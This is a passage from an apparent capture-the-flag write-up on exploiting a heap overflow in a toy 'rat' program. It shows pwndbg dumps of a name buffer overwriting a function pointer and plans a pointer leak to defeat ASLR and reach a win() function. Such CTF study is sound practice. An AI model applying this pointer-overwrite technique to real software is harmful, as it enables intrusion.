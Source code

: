 after doing so yeilds the following memory dump (still relative to where the
first rat was created)

```sh
pwndbg> x/40wx 0x5555555592a0
0x5555555592a0:	0xffffdd80	0x00007fff	0x55555269	0x00005555
0x5555555592b0:	0x64636261	0x68676665	0x6c6b6a69	0x706f6e6d
0x5555555592c0:	0x00000010	0x00000000	0x00000031	0x00000000
0x5555555592d0:	0xffffdd80	0x00007fff	0x55555269	0x00005555
0x5555555592e0:	0x61616161	0x61616161	0x61616161	0x61616161
0x5555555592f0:	0x61616161	0x61616161	0x61616161	0x61616161
0x555555559300:	0x61616161	0x61616161	0x61616161	0x61616161
0x555555559310:	0x61616161	0x61616161	0x61616161	0x61616161
0x555555559320:	0x61616161	0x61616161	0x61616161	0x61616161
0x555555559330:	0x61616161	0x61616161	0x00556161	0x00005555
```

as such, it looks like the `dialogue(rat*)` address was overwritten. this is
confirmed by attemtping to greet rat of index 3.

```sh
1) Create new rat
2) Greet your rat
3) Rename the rat
4) Delete the rat
5) Quit.

2

Select a rat number.
3

Program received signal SIGSEGV, Segmentation fault.

...

Invalid address 0x555500556161

...
```

perfect! we have overwritten the `dialogue(rat*)` pointer and can now call the
address of `win`! ... kind of...

as ASLR seems to be on, then I will have to figure out what address to overwrite
to... `dialogue(rat*)` is at offset `0x269` while `win()` is at offset `0x669`.
so, that means we'll need to leak the address of `dialogue(rat*)` in order to
overwrite the address of `dialogue(rat*)`. but first, let's figure out a way to
consistently overflow this dang buffer.

**WOW** it is 2 am and apparently this is the witching hour when my brain +
binexp clicks. (second time now :p) so, what happens is that, when creating a
rat, the program will automatically define the maximum length of its name to be
`0x10` in `*(undefined4 *)(new_rat + 4) = 0x10;` of `createRat(rat*)`. as such,
the maximum length is stored just after the name in the heap (see below)
